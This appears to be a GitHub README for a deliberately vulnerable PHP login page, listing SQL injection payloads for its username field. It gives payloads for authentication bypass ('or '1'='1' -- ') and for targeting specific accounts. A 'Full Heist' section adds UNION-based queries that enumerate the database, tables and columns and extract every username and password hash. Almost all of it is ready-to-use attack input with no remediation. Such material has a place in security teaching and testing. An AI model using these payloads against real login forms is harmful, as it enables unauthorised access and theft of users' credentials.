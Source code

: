 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

- Get first table name, using DB name obtained above

  1. username => fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

## Full Heist

- Get number of fields returned

  1. username => fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until if doesn't fail

- Get DB name and DB user account

  1. username => fsdfs' UNION SELECT DATABASE(), user(), 1 -- '

- Get all table names, using DB name obtained above

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1, 2 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test' -- '
     Note: test is the DB name obtained above

- Get all column names

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(column_name), 1, 2 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' AND TABLE_SCHEMA='test' -- '
     Note: users is the table name obtained above

- Get all usernames and corresponding password hashes

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(username), GROUP_CONCAT(password_hash), 1 FROM users -- '
